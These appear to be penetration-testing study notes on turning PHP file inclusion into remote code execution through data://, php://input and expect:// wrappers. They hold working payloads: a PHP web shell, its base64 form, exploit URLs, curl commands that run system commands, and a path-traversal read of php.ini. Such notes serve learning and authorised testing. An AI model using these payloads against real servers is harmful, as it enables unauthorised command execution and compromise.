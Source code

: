 ### Overview

- File Inclusion Vulnerabilities can escalate to **Remote Code Execution (RCE)**.
    
- Methods include:
    - Enumerating **user credentials** and **SSH keys**
    - Direct execution via **PHP Wrappers** (e.g., `data://`, `php://input`, `expect://`)
- Focus: Gaining control over the backend server via **PHP wrapper exploitation**.

---

## Data Wrapper

### Prerequisite

- Requires `*allow_url_include = On*` in `php.ini`
    - Found at `/etc/php/X.Y/apache2/php.ini` or `/etc/php/X.Y/fpm/php.ini`
    - Use base64 filter to safely include `.ini` file:
```bash
curl "<URL>?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

### Exploiting

- Base64 encode a PHP web shell:
```php
echo '<?php system($_GET["cmd"]); ?>' | base64
```
Output: `PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==`

- Construct exploit URL:
```bash
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,<ENCODED_PAYLOAD>&cmd=id
```
Sends command (`id`) to shell and receives execution output.

---

## Input Wrapper

### Characteristics

- Uses **POST request** body as PHP code.
- Vulnerable parameter must accept **POST requests**.
- Also depends on `*allow_url_include = On*`.

### Exploiting

- POST PHP shell in body and pass command via GET:
```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' \
"http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```
- If GET is not accepted, hardcode command in payload:
```php
<?php system('id'); ?>
```

---

## Expect Wrapper

### Characteristics

- Allows direct execution of commands via URL stream.
- Requires `*expect*` extension to be installed and enabled:
```bash
echo '<base64_config>' | base64 -d | grep expect
```
- Should find: `extension=expect`

### Exploiting

- Execute command directly:
```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
- Designed for **command execution**—simplifies exploitation.

---
## Summary

| Wrapper       | Method             | Requires `allow_url_include` | Input Type | Notes                            |
| ------------- | ------------------ | ---------------------------- | ---------- | -------------------------------- |
| `data://`     | Base64 PHP Shell   | ✅                            | URL Param  | Encodes payload in URL           |
| `php://input` | POST Payload Shell | ✅                            | POST Body  | Command via GET or hardcoded     |
| `expect://`   | Direct Command     | ❌ (needs `expect` module)    | URL Param  | Simplified RCE, module-dependent |